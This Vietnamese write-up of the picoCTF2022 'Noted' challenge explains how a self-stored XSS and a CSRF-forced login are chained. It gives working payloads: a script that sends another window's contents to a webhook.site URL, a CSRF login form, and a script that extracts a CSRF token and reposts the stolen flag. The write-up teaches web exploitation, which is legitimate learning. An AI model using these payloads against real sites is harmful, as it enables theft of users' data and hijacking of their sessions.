 ```yaml
---
title: Noted - picoCTF2022
description: From picoCTF2022
author: to^
date: 2022-04-04 22:08:00 +0700
categories: [WebSec, CTF, picoCTF2022]
tags: [csrf, xss]     # TAG names should always be lowercase
img_path: /assets/img/
image:
 src: noted/pico.png
 alt: picoctf logo
 width: 1000
 height: 400
---
```


## _Sơ lược về challenge_
Trang gồm có hai chức năng `Login` và `Register`
![overview1](noted/overview1.png)
_overview1_

Tiếp đó ta thể tạo note và gửi link để report.
![overview2](noted/overview2.png)
_overview2_


## Phân tích
Sau khi thử thì mình nhận thấy có lỗi xss ở đây
[![test note](noted/overview2.png)](https://user-images.githubusercontent.com/77546253/161594213-8d0c1949-c9f1-410b-ae70-890f10590c89.mp4 "Link Title")
_Click to play video_

Suy ra bài này là một dạng Self Store XSS


Cũng tương tự như các bài xss khác, chức năng report sẽ làm con bot (đóng vai trò như admin) access đến link mà ta gửi.
![report](noted/report.png)
_report.js_
Bot sẽ tạo một tài khoản với tk, mk random và tạo một note với content chính là flag. Sau đó sẽ access tới url được report.

Trong `web.js` có thể thấy server dùng csrf token trong các route.
![csrf](noted/webjs.png)
_web.js_


## _Khai thác_
Bởi vì sau khi vừa tạo note thì phiên hoạt động của bot vẫn còn hiệu lực nên từ đó ta sẽ nghĩ cách để có thể lấy nội dung từ trang `/notes` của con bot (chứa flag) và gửi đến webhook hoặc có thể tạo một note mới với content là flag ở account của ta.

Bởi vì sau khi vừa tạo note thì session của bot vẫn còn lưu trên trình duyệt nên từ đó ta sẽ nghĩ cách để có thể lấy nội dung từ trang `/notes` của con bot (chứa flag) và gửi đến webbook hoặc có thể tạo một note mới với content là flag ở account của ta.


### Gửi đến webhook
Cách này không đòi hỏi phải extract csrf token
![flow1](noted/flow1.png)
_flow1_



Đầu tiên ta khởi tạo 1 account với `tk,mk: bla` mục đích là lưu xss script có vai trò gửi nội dung của `window` chứa flag tới webhook của ta.

XSS note sẽ có nội dung như sau:
```html
<script>
  if (window.location.search.includes('pwn'))
    window.location = 'https://webhook.site/<id>?' + window.open('', 'flag').document.body.textContent
</script>
```
Ở đây ta dùng `window.location.search.includes` là để tránh việc bị redirect liên tục tới webhook.

Tiếp theo ở exploit server ta tạo một `index.html` với layout
![exploit server](noted/exp_sv.png)
_flow2_

Csrf form sẽ là:
```html
    <form action='http://0.0.0.0:8080/login' method='POST' id='csrf' target='_blank'>
        <input type="text" name="username" value="bla">
        <input type="text" name="password" value="bla">
    </form>
```

Script để exploit sẽ là:
```html
    <script>
        window.open('http://0.0.0.0:8080/notes', 'flag');
        setTimeout(`csrf.submit()`, 1000);
        setTimeout(`window.location='http://0.0.0.0:8080/notes?pwn'`, 1500);
    </script>
```
Trong csrf form ta thêm thuộc tính `target` và gán giá trị bằng `_blank` để reponse trả về từ `action` sẽ mở ở tab mới nếu không các dòng javascript ở bên dưới sẽ không được thực thi.

Để hiểu rõ hơn về cách khai thác này ta sẽ đặt tất cả lại với nhau:
 - Đầu tiên gửi cho con bot link exploit server, bot sẽ truy cập tới exploit server hay cụ thể là `index.html`
 - Đoạn script ở `index.html` sẽ open new tab với tên là `flag` (sẽ không yêu cầu nhập username, password bởi vì phiên hoạt động của bot vẫn còn và cửa sổ này sẽ chứa note với content là flag)
 - Sau 1s thì submit csrf form lúc này bot sẽ login vào account ta vừa tạo và kết quả hiển thị ở `new blank tab`
 - Sau 1,5s thì chuyển hướng từ exploit page đến `http://0.0.0.0:8080/notes?pwn` lưu ý rằng ở đoạn code trước ta đã đăng nhập vào tài khoản `bla` nên bây giờ cũng sẽ chuyển hướng tới `/notes` của `bla`. `?pwn` dùng để trigger store xss và gửi nội dung cửa sổ `flag` đến webhook.
Có thể thấy lúc này ta không hề vi phạm `same origin policy` khi lấy `document.body.textContent` từ 
cửa sổ `flag` bởi vì chúng đều thuộc cùng domain, port và scheme.

Và kết quả:
![result](noted/result.png)
_result_

### Extract csrf token
Ở cách này thì form csrf vẫn như cách kia nhưng có sự thay đổi về xss note và script exploit

Script exploit:
```html
    <script>
        window.open('http://0.0.0.0:8080/notes', 'flag')
        setTimeout(`csrf.submit()`, 1000);
    </script>
```

XSS note:
```html
<script>
fetch("/new").then(r => r.text()).then(r => {
    //extract csrf token từ '/new'
    let csrf = r.match(/_csrf" value="([^"]*)/)[1];
    //lấy flag
    let flag = window.open('', 'flag').document.querySelector("body>div>p").innerHTML;
    //tạo note với content là flag ở account của ta
    fetch("/new", { method: "POST", body: JSON.stringify({ _csrf: csrf, title: "PWNED!!!", content: flag }), headers: { 'Content-Type': 'application/json' } });
});
</script>
```
Kết quả:
![result'](noted/result'.png)
_result_

## _Tham khảo_
<https://docs.abbasmj.com/ctf-writeups/picoctf-2022#noted>




